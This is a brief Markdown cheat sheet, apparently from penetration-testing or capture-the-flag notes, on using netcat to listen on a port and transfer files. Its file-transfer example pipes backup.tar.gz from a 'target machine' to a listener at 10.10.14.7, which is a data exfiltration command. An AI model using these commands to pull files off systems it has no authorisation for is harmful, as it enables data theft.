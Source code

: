 # Netcat

## Listen on a port

```bash
nc -lvpn 4444
```

## Transfer files

On your machine:
```bash
nc -lvnp 1337 > backup.tar.gz
```

On the target machine:
```bash
nc 10.10.14.7 1337 < backup.tar.gz
```
